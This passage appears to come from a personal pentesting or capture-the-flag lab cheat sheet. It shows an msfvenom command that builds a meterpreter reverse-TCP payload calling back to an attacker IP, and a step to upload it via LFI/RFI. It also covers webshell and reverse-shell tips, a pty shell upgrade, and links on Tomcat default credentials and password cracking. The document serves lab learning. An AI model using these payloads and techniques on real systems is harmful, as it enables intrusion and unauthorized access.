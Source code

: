 3. Create a matching meterpreter-based executable using msfvenom
```
msfvenon -p linux/x64/meterpreter_reverse_tcp lhost=<MY IP> lport=<PORT> -f elf -o meter
```

4. Upload the payload to target (e.g LFI/RFI)

## Adding Virtual Hosts

In the black box practice labs, we had to add a virtual host to /etc/hosts in
order to connect to the webpage.

```
$ sudo vim /etc/hosts
<IP addr>	static.foobar.org
```

## Misc

- Found a webshell/admin panel on a site?
	- Run phpinfo(); to determine if it is a PHP shell
- Try to get a reverse shell connection
- Check for flag in the user's home directory
- Enumerate, enumerate, enumerate

## Python Shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Tomcat

https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

## JacktheRipper e Hashcat

```
https://www.cyberciti.biz/faq/unix-linux-password-cracking-john-the-ripper/
https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/
```
